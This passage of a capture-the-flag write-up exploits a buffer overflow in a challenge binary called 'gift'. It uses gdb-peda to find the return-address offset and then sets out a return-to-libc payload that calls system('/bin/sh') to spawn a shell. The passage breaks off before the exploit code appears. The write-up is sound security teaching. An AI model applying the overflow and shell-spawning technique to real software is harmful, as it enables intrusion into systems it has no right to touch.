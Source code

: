 
When we send the keycodes, we get the following message:

<kbd>![access_granted.png](images/access_granted.png)

Entering a new keycode does not return any flag... so what are we missing?

## Pwning the Pwnshop

To obtain the flag, we'll need to exploit a buffer overflow that exists at the last step, when we are asked to enter a new keycode. We're going to experiment with a local copy of the `gift` executable, debugging it with `gdb` enhanced with  [peda](https://github.com/longld/peda) (Python Exploit Development Assistance for GDB).

First, we send all the keycodes using the code provided above. Once we are asked to provide the new keycode, we can attach `gdb` to the running process. Then we can use the `pattc` command to create a pattern of, say, 100 characters and proceed with the execution:
```bash
gdb-peda$ pattc 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ c
Continuing.
```
If we provide this pattern as the new keycode, we'll see that the program crashes with a segmentation fault. As we see from the output of `gdb` + `peda`, the instruction pointer `EIP` references an invalid address `0x41434141`, which actually corresponds to the string 'AACA':

<kbd>![sigsegv.png](images/sigsegv.png)

 As you can see above, we can use the `patto` command to determine the offset of this substring in the pattern above, which is 16.

At this point, we recall that we were given the `libc.so` library, so it seems pretty clear that we'll need to do a *return-to-libc attack* in order to spawn a shell. Summing up, what we have to do is pass a string with the address of the `system` function at offset 16. Moreover, we need to pass the string `'/bin/sh'` as an argument to this function. In between the two addresses we'll need to put 4 extra bytes (the next return address, but we won't care about that and we'll just pass a nonsense string). More precisely, when asked for the new keycode we will introduce the following:
```
AAAAAAAAAAAAAAAA[system address]BBBB['/bin/sh' address]
|_______________|______________|____|_________________|
        |               |         |          |
    16 bytes         4 bytes      |       4 bytes
                               4 bytes
```
We can do that with the following piece of code: